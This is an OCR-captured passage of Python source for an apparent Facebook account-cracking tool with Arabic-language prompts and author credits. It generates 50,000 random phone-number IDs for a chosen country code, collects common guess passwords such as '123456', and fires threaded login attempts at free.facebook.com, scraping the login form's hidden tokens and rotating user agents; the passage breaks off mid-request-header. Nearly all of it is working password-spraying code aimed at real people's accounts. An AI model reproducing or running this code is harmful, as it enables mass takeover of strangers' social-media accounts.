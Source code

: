     code = input('\033[1;32m اختر الدوله واكتب الرمز تبعها : ')
    os.system("clear")
    limit = 50000
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    print('\033[1;32m مرحبا عزيزي المستخدم يرجى اختيار عدد الباسوردات مثلا اذا اخترت رقم 5 فيجب عليك ادخال خمس باسوردات لتخمين فكل ما عليك هو كتابت رقم من 1الى 10 ومن ثم ادخال الباسوردات لتخمين ')
    print('\033[1;33m هذه بعض الباسوردات لتخمين \n 123466,12345678,123456789,1234567890,123123,123123123,11223344,1122334455,١٢٣٤٥٦,١٢٣٤٥٦٧٨,١٢٣٤٥٦٧٨٩,٠٩٨٧٦٥٤٣٢١,65321,19991999,1998198 ')
    passx = int(input("\033[1;32m[VIP] عدد باسوردات التخمين اختر رقم من 1الى 10 :"))
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input("\033[1;32m[VIP]   اكتب الباسوورد : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print('\033[1;91m  عدد الايديات المستهدفه: '+tl)
        print('\033[1;97m شروحات نادر @nade20080')
        print('\033[1;32m عزيزي المستخدم انتضر الصيد وانتضر رزق وانت تنتضر رزقك صلي على النبي محمد وملاحضه الصيد قد يكون بطيى حسب جوده الانترنت وحسب دولتك وحسب عدد الباسوردات فكون صبور وحضا اوفر تحياتي نادر')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;34m >_@NN11N11_<')

def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',